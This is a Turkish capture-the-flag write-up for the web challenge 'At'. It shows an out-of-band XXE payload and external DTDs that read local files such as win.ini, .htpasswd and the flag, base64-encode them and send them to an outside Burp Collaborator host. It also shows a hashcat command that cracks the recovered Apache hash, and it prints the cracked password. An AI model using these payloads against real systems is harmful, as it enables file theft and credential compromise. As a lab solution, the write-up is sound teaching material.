

### At (Web 300)


Soruda bize sadece bir IP adresi veriliyor. Bu IP adresini ziyaret ettiğimde bir form ile karşılaştım.


Formu doldurup gönderdiğim. Sonra bu isteği Burp Suite'in Repeater aracı ile açıp isteği tekrarladım ve bunu yaptığımda **Sorry, this email is already registered!** mesajı ile karşılaştıım. Kısaca farklı emailler ile isteği tekrarladım ancak mesaj hiç değişmedi. Sonra kısaca her parametreye SQL Injection denemesi yaptım ancak bu da hiçbir sonuç vermedi. İsteğin XML olarak gitmesi akıllara direk XXE Injection(XML External Entity Injection) açığını getirmeli. XML parserlarının bir özelliğinden dolayı oluşan bu güvenlik açığı birçok büyük firmada daha önce bulunmuş ve rapor edenlere binlerce dolar kazandırmıştır. Örnek olarak Google ve Facebookta bulunmuş XXE açıklarının İngilizce write-up'larını okuyabilirsiniz.

Google XXE (Ödül $10,000): https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/  
Facebook XXE (Ödül $30,000): https://www.ubercomp.com/posts/2014-01-16_facebook_remote_code_execution


   


Ben XXE açığını kontrol etmek için şu listedeki payloadları kullanıyorum: https://gist.github.com/staaldraad/01415b990939494879b4 

Bu XXE payload listesinden biraz deneme yanılma yoluyla çalışan bir payload buldum:


   


XXE başlı başına bir konu olduğu için bu yazıda XXE'yi açıklamayacağım. Ancak kullandığım Out-of-Band XXE payloadunun ne yaptığını kısaca anlatayım:

**XXE Payload (HTTP isteğiyle birlikte gönderilecek)**
```
1: <?xml version="1.0" encoding="UTF-8"?>
2: <!DOCTYPE r [
3: <!ELEMENT r ANY >
4: <!ENTITY % sp SYSTEM "http://xx.xx.xx.xx:8000/ex.dtd">
5: %sp;
6: %param1;
7: %exfil;
8: ]>
```

1) Dördüncü satırda `sp` adında bir XML Entity tanımı yapılıyor. Bu Entity başka bir IP adresindeki DTD dosyasına link ediyor. DTD dosyası dediğimiz bildiğimiz XML dosyası. 

2) Beşinci satırda bu tanımı yapılan Entity çağırılıyor. Tıpkı fonksiyon gibi düşünün. Tanımını yaptığınız fonksiyonu çağırmazsanız o fonksiyon hiçbir işe yaramaz.

3) XML parser verilen IP adresindeki DTD dosyasını yükleyip parse ediyor.

4) Altıncı ve 7. satırlarda, yüklenen DTD içinde tanımlanmış olan `param1` ve `exfil` Entityleri çağırılıyorlar. Fonksiyon benzetmesinden devam edersek, DTD dosyasında tanımlı fonksiyonlar çağırılıyor diyebiliriz. Bu sayede XML parser DTD'yi import ettiğinde `param1` ve `exfil` Entitylerine erişebilecek.


**http://xx.xx.xx.xx:8000/ex.dtd Dosyası (Sistemde zafiyet bulunan XML parser bu dosyayı çağırıyor)**:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">   
```

1) Birinci satırda `data` Entity'si `c:/windows/win.ini` dosyasına link ediyor. Yani `data` fonksiyonu çağırıldığında `c:/windows/win.ini` dosyasının base64 encode edilmiş içeriğini dönecek gibi düşünebilirsiniz.

2) İkinci satırda `param1` Entity'si `exfil` adında başka bir Entity tanımlıyor ve bu `exfil` Entity'si `http://x.x.x.x:443/` adresine `data` Entity'sinin içeriğini(Base64 encode edilmiş `c:/windows/win.ini` dosyası) gönderiyor.
  


Bu aşamadan sonra `c:/windows/win.ini` dosyasını okumak için aşağıdaki şekilde istek gönderdim:

 


**ex.dtd'yi barındıran sunucum:**

 


**XXE zafiyeti bulunan sunucu, Burp'ün sunucusuna `c:/windows/win.ini` dosyasını Base64 encode edip gönderiyor:**

 


Bu aşamadan sonra sistemde bütün dosyaları okuyabiliyordum. Ancak bu aşamada takıldım çünkü flag'in nerde saklandığını bulamadım. Ta ki sitenin içinde biraz gezip `js/` klasörünün altındaki `files.txt` dosyasını bulana kadar.  


Burada bize flag'in `C:\Windows` dizininde olduğunu ve flagin isminin `flag_\d{4}[a-zA-Z]{4}\.txt` Regular Expression'ınına uyucağını söylüyordu. Bütün olasılıkları Brute Force mantıklı değildi. Biraz daha araştırma yapınca sunucunun `/flag` altdizinin HTTP Authentication kullandığını gördüm.


`/flag` dizinine girebilmek için HTTP Authentication kullanıcı adı ve parolasına ihtiyaç vardı. HTTP Authentication parolaları Apache sunucularda `.htpasswd` dosyasında saklanır. XXE zafiyetini kullanarak bu dosyayı aynı yukarıda `win.ini` dosyasını okuduğumuz gibi okuyabiliriz.

**ex.dtd dosyasının içeriğini aşağıdaki gibi değiştirdim .htaccess'i okuyabilmek için:**
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/xampp/htdocs/.htpasswd">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://qmgtfsyjox8fdh4q8ug2io8kvb12pr.burpcollaborator.net/?%data;'>">
``` 

`.htaccess` dosyasının içeriği:


HTTP Authentication için kullanıcı adı: `stalker` ve hashlenmiş parola: `$apr1$izrgXKZ1$0fVgd1MIioC14JG6VYwTw/`. Bu parolanın hangi hash fonksiyonu ile hashlendiğini araştırdım ve Apache MD5 diye bir format buldum. Bu formatı cracklemek için Hashcat'i hash türünü 1600 olarak seçerek kullandım. Tabii  dictionary olarak CTFlerin olmazsa olmazı rockyou.txt'yi kullandım.

```
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt --force

```  

**Sonuç:**



Kullanıcı adını `stalker` ve parolayı `gangstagangsta` olarak girdiğimizde yine bir sürprizle karşılaştım.


Bize flag yerine ismi `flag_3289erpd.txt.jpg` olan bir resim dönülüyor. Biraz kafamı kaşıdıktan sonra `C:/Windows/` dizini altındaki `flag_\d{4}[a-zA-Z]{4}\.txt` formatında bir flag olduğu aklıma geldi. Artık flag'in ismi de elimizde olduğuna göre hemen XXE zafiyetini kullanarak okuyabiliriz flag dosyasını.

**ex.dtd dosyasının içeriğini aşağıdaki gibi değiştirdim C:/windows/flag_3289erpd.txt'yi okuyabilmek için:**
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/flag_3289erpd.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://qmgtfsyjox8fdh4q8ug2io8kvb12pr.burpcollaborator.net/?%data;'>">
``` 


Bence soru çok eğlenceliydi. Hazırlayan kişinin ellerine sağlık.

